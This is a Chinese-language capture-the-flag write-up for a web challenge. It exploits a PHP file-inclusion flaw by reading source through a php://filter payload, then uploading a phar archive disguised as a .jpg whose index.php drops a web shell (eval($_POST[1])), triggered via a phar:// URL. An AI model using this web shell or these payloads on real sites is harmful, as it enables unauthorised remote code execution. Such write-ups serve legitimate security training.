 ### web200-6 WriteUp 

---------------  

include.php 存在文件包含漏洞 

可以使用 include.php?file=php://filter/read=convert.base64-encode/resource=upload  来读取源码.

但是 include.php 限制了后缀只能是 .php,这里还不能截断 
再看upload.php,限制了只能上传图片

这里唯一可用的就是  phar://这个协议了  
这个协议到底怎么用参看这里:
[https://segmentfault.com/a/1190000002166235](https://segmentfault.com/a/1190000002166235)
[http://www.mamicode.com/info-detail-888559.html](http://www.mamicode.com/info-detail-888559.html)

来新建一个目录,名字为blog,下面放一个index.php,里面是一个写shell的php代码
```php
<?php  file_put_contents('shell.php','<?php eval($_POST[1])?>'); ?>
``` 

在blog目录外创建一个打包的文件,build.php,代码如下:
```php
<?php 

if(class_exists('Phar')){

     $phar = new Phar('blog.phar',0,'blog.phar');

     $phar ->buildFromDirectory(__DIR__.'/blog');

     $phar->setStub($phar->createDefaultStub('index.php'));
     $phar-> compressFiles(Phar::GZ);
}
```
运行build.php,就会创建一个blog.phar, 然后把后缀名修改为  blog.jpg,然后上传:

然后访问:
```
/include.php?file=phar://upload/blog.jpg/index
```
就会在跟目录下生成一个shell.php,注意.. 不是upload目录下 

